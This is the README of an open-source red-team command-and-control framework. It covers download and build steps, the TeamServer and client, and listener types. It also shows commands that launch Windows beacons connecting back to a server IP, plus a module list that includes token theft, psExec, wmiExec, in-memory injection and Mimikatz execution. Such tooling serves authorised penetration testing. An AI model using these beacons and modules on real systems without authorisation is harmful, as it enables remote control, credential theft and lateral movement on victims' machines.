 # Exploration C2

## What it is

Exploration is a rudimentary redteam Command and Control framework.  
This repository contains the TeamServer and the Client.  
The release includes the TeamServer the Client with preconfigured certificate as well as the beacons and modules for windows from [C2Implant](https://github.com/maxDcb/C2Implant).

```
wget -q $(wget -q -O - 'https://api.github.com/repos/maxDcb/C2TeamServer/releases/latest' | jq -r '.assets[] | select(.name=="Release.tar.gz").browser_download_url') -O ./C2TeamServer.tar.gz
mkdir C2TeamServer && tar xf C2TeamServer.tar.gz -C C2TeamServer --strip-components 1
```

## Introduction

The TeamServer is a stand alone application, coded in c++, that handle listeners. The client, coded in python, communicate with the TeamServer through GRPC.  
Beacons run on the victime host. Each Beacons which connects back to the TeamServer open a new session. This session is used to control the Beacon, send commands and receive results.  
Listener and Beacons can communicate through TCP, SMB, HTTP ,HTTPS and Github issues depending on the situation.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ListenersAndSessions.png?raw=true)

A compiled version of the TeamServer is ready to use in the Releases, with some default certificats for GRPC communication and HTTP Listener:

The TeamServer binary is in Release/TeamServer  
it's launched using 

```
cd Release/TeamServer  
./TeamServer
```

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/TeamServerLaunch.png?raw=true)

The Python Client is in Release/Client 
It's launched using 'python3 GUI.py'  

```
cd  Release/Client 
python3 GUI.py
```

## TeamServer Listeners

4 types of listeners are available from the TeamServer: HTTP, HTTPS that start a web server on the given port, TCP that start a TCP server on the given port and GitHub that use GitHub issues from a project like "maxDcb/C2TeamServer" and a personal access token (with issues write rights).

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListener.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListenerTypes.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/Listeners.png?raw=true)


## Beacons

### Windows Beacon

Winodws Beacons and command modules are compiled separately in another [project](https://github.com/maxDcb/C2Implant), but a compiled version is provided in ./Release/Beacons and ./Release/Modules to be able to use it directly.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseModulesBeacons.png?raw=true)

To launch a beacon available in ./Release/Beacons use the following syntax on a windows machine:  

```
.\BeaconHttp.exe IP_TEAMSERVER PORT_LISTENER http/https
.\BeaconHttp.exe 10.10.52.5 8443 https
.\BeaconHttp.exe 10.10.52.5 80 http
```

When the Beacon is started and connect to the TeamServer, a new session is started from where you can interact with the Beacon:

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/NewSession.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/SessionInteract.png?raw=true)

Windows beacon uses primarily windows API and start with no module loaded. Modules are loaded at runtime using "MemoryModule" project to load DLL sent by the TeamServer to the beacon.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/loadModule.png?raw=true)

| Modules          |
| :--------------- |
| assemblyExec     |
| upload           |
| download         |
| run              |
| script           |
| inject           |
| pwd              |
| cd               |
| ls               |
| ps               |
| makeToken        | 
| rev2self         | 
| stealToken       | 
| coffLoader       |
| loadModule       | 
| powershell       | 
| kerberosUseTicket| 
| psExec           | 
| wmiExec          | 
| spawnAs          | 
| chisel           | 
| tree             | 

AssemblyExec & Inject, that use Donut project, make it possible to launch binary EXE, DLL, managed or unmanaged direclty from memory on the remote host.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AssemblyExecMimikatz.png?raw=true)

Coff, that use COFFLoader project, is used to run Coff files.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/coffDir.png?raw=true)

Two side projects can be used to deliver the beacons:
* [PowershellWebDelivery](https://github.com/maxDcb/PowershellWebDelivery)
* [PeDropper](https://github.com/maxDcb/PeDropper)


### Linux Beacon

A very basic Linux Beacons coded in python and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantPy).

An other very basic Linux Beacons coded in Nim and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantNim).


## Build the TeamServer

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [cpp-httplib](https://github.com/yhirose/cpp-httplib): Http and Https Listener.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.


### Build

```
sudo apt install gcc-mingw-w64
sudo apt install g++-mingw-w64
sudo apt install golang-cfssl
sudo apt install cmake 

pip3 install pycryptodome
pip install conan
pip install grpcio
pip install PyQt5
pip install pyqtdarktheme
pip install protobuf

conan profile detect

git clone https://github.com/maxDcb/C2TeamServer.git
cd C2TeamServer
git submodule update --init

mkdir build
cd build
cmake ..
make -j4
```

The TeamServer binary is in ./Release/TeamServer  
it's launched using './TeamServer'  

The Python Client is in ./Release/Client  
It's launched using 'python3 GUI.py'  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseTeamServerClient.png?raw=true)


